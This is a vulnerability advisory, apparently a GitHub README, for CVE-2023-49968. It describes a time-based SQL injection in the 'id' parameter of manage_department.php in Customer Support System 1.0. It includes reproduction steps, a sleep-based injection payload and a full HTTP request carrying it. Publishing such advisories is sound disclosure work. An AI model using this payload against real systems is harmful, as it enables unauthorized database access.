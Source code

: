 # CVE-2023-49968
# Customer Support System 1.0 - SQL Injection Vulnerability in manage_department.php via "id" URL Parameter

**Description**: A SQL Injection vulnerability exists in version 1 of the Customer Support System. An attacker with malicious intent can execute SQL commands on the MySQL database by manipulating the 'id' URL parameter while editing a department.
  
**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49968     
**Tested on**: Windows  
### Steps to reproduce:  
1- Log in to the application.  
2- Navigate to the department editing page, click the "Action" button, and select "Edit".  
3- The 'id' parameter will be passed, allowing the insertion of a malicious payload. 
**payload**: (select*from(select(sleep(5)))a)  
### Request:

```
GET /customer_support/manage_department.php?id=(select*from(select(sleep(5)))a) HTTP/1.1
Host: 192.168.68.182
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Connection: close
Referer: http://192.168.68.182/customer_support/index.php?page=department_list
Cookie: PHPSESSID=arlocktakq815fq1lpm5fjml9n
```
Discoverer(s)/Credits:  
Geraldo Alcântara
